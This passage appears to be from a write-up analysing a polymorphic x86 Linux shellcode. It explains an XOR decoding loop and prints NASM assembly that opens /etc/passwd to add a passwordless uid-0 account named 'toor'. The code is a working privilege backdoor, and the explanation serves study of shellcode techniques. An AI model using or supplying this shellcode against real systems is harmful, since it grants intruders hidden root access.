 The goal of the code above is to decode the encoded bytes, by `XOR`-ing one `DWORD` at a time with the key `0x75636371`.

It doesn't hold any special meaning, it's just 4 random bytes that don't generate any `NULL` bytes during the `XOR` operations.

The `loop` instruction, used in conjunction with `mov cl, 11` from above, allow the shellcode to repeat the routine `DecodeStringBytes` 11 times, in order to decode the `44 encoded bytes` referenced by the variable `EncodedStringBytes`.

Follows the next routine, named `OpenFile`:

```nasm
OpenFile:

    ; restore EDI to the original value
    ;   (pointing to the start of the decoded bytes)
    mov edi, esi

    ; store the pointer to 'toor::0:0:t00r:/root:/bin/bash\0x0a' into ebx
    mov ebx, edi
    add ebx, 0xc

    ; save the same pointer into ESI too
    push ebx
    pop esi

    ; store the pointer to '/etc/passwd' into EBX
    push edi
    pop ebx

    ; store 0x5 into EAX (syscall: open())
    mov al,0x6
    dec eax

    ; store the WORD 0x1a4 into EDX
    mov dl, 0x69
    rol edx, 2

    ; store the WORD 0x442 into ECX
    mov cx,0x443
    dec ecx

    ; call syscall 0x5: open()
    int 0x80
```

The first instructions are used by the shellcode for retrieving the pointers to the following decoded strings:

<ol><li>stored into the registers `EBX` and `EDI`: `/etc/passwd`
- stored into the register `ESI`: `toor::0:0:t00r:/root:/bin/bash` (plus `0xa` at the end)

Compared to the original shellcode, I tried to restrict myself from directly moving bytes into registers, but instead using the `PUSH-POP` technique, as it requires the same number of bytes from what I've seen so far.
